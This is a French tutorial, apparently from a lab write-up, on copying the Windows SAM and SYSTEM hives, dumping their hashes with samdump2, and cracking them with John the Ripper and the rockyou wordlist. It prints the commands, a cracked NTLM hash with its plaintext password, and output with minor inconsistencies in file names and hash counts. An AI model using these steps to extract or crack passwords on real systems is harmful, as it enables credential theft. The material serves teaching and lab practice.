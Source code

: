 ```yaml
---
title: "[SAM] Dumping des informations d'identification Microsoft"
description: test.png
tags: ["Dans cet article je vous présente comment fonctionne le système de chiffrement SAM et vous montrez dump un fichier SAM et cracker les mots de passe."]
---
```


![Flower](../sam.png)

Introduction
----
Dans ce cours à but éducatif nous allons voir comment dumper et cracker des mots de passes Microsoft grâce au système de fichier `Security Account Manager` (SAM) en français `Gestionnaire de compte de sécurité`.

SAM
----
Alors commençons par la base des bases c'est quoi `SAM` concrètement ? <br />

La SAM (Security Account Manager ou gestionnaire des comptes de sécurité) est la base de données des comptes locaux sur Windows Server 2003, Windows XP, Windows 2000. C'est l'un des composants de la base de registre. Elle contient les mots de passe locaux.

La SAM est stockée physiquement dans le fichier `%SystemRoot%\system32\Config\SAM`. C'est un fichier de ruche inclus dans `HKEY_LOCAL_MACHINE`, lui-même inclus dans la base de registre. Comme vous pouvez le voir ils sont stockés dans le registre.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894108-screenshot-5.png)

Nous allons commencer par copier les fichiers `SAM` et `SYSTEM` via la commande `reg`. La commande `reg` est une commande Microsoft. Et la commande `reg` est un moyen pour gérer le registre de Windows.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894619-screenshot-2.png)

Le fichier `SAM` et `SYSTEM` ont été copier avec succès donc maintenant nous allons aller sous Linux pour installer quelques paquets pour dump les deux fichiers en question.

SAMDUMP
----
Avant de dump le fichier on doit s'assurer que `samdump2` est bien installé sur votre ordinateur.

    root@Seyptoo:/home/seyptoo# which samdump2
    /usr/bin/samdump2

S'il ne vous renvoie rien, vous devez installer samdump2 via la commande apt-get.

     root@Seyptoo:/home/seyptoo# sudo apt-get install samdump2
     Lecture des listes de paquets... Fait
     [...SNIP...]

Il faut d'abord spécifier le fichier `SYSTEM` et enfin le fichier `SAM` pour dumper les fichiers.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558896664-capture-du-2019-05-26-20-50-31.png)

Le dumping à fonctionner avec succès donc maintenant nous allons passer au crack du hash avec john. Il faut avant tout identifier le hash cela ressemble grandement à du `NT Lan Manager` (NTLM). Vous pouvez très bien ne pas identifier le hash pour cracker le hash ça reste facultatif.. le programme john va chercher par lui même pour identifier le hash en question. Nous allons avant tout mettre les deux hashs dans un fichier.

    $ echo aad3b435b51404eeaad3b435b51404ee > hashs.log
    $ echo 26112010952d963c8dc4217daec986d9 >> hashs.log

CRACK
----
    
On peut commencer l'attaque avec le programme john. L'option --wordlist permet de spécifier la wordlist pour tester les mots de passe.

    $ john --wordlist=rockyou.txt hashs.log
    Loaded 3 password hashes with no different salts (LM [DES 128/128 SSE2-16])
    Remaining 2 password hashes with no different salts
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:00 100% 0g/s 250.0p/s 250.0c/s 500.0C/s GROEGJR..TRHJIPR
    Session completed

Et sinon nous regardons avec l'option `--show`.

    root@Seyptoo:~/htb/box/Bastion# john --show hashs.file 
    26112010952d963c8dc4217daec986d9:bureaulampje

    1 password hash cracked, 2 left
